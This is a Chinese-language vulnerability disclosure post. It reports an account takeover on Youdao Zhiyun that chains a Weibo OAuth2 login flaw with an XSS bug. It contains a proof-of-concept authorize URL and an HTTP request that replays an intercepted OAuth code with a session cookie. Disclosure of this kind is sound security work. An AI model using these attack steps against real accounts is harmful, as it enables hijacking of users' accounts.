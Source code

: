 ```yaml
---
layout: post
title:  "高危：有道智云存在微博OAuth2登录缺陷串联XSS漏洞实现账户劫持(忽略!)"
date:   2024-04-09 10:26:18 +0800
categories: account-takeover
---
```


## Name

> 有道智云存在微博OAuth2登录缺陷, 串联XSS漏洞实现账户劫持(对业务影响小，忽略hh)

## Weakness
> account takeover

## Severity
> High, 9.5

## URL
- POC网页: [https://api.weibo.com/oauth2/authorize?response_type=code&client_id=1230490736&redirect_uri=https%3A%2F%2Fnote.youdao.com%2Fcoshare%2Findex.html%3Ftoken%3DC47998CE491248EFAE31401AAD4B00BF%26gid%3D149090401%26_time%3D171263020522&forcelogin=true###](https://api.weibo.com/oauth2/authorize?response_type=code&client_id=1230490736&redirect_uri=https%3A%2F%2Fnote.youdao.com%2Fcoshare%2Findex.html%3Ftoken%3DC47998CE491248EFAE31401AAD4B00BF%26gid%3D149090401%26_time%3D171263020522&forcelogin=true###)

- 视频链接：[https://pan.baidu.com/s/150gjIgO-9ywmzt5bD92tEw](https://pan.baidu.com/s/150gjIgO-9ywmzt5bD92tEw) 提取码：1314

## Key Payload

OAuth2登录请求，其中code参数是攻击者截获的微博认证code：

```
GET /login-weibo-redirect.s?code=58590295c78da0b3f1141b7bdcb5bc4f HTTP/1.1
Host: ai.youdao.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://api.weibo.com/
Cookie: JSESSIONID_NEW=5f715da6-a7c5-4638-8401-4a7e64330d93
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
```
